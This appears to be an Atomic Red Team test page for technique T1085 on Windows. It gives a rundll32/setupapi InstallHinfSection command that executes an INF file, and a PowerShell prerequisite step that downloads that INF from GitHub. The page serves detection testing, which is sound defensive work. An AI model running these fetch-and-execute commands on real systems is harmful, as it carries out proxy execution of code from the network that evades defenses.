 **Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1085&#92;src&#92;T1085_DefaultInstall.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 .\#{inf_to_execute}
```




#### Dependencies:  Run with `powershell`!
##### Description: Inf file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1085/src/T1085_DefaultInstall.inf" -OutFile "#{inf_to_execute}"
```




<br/>
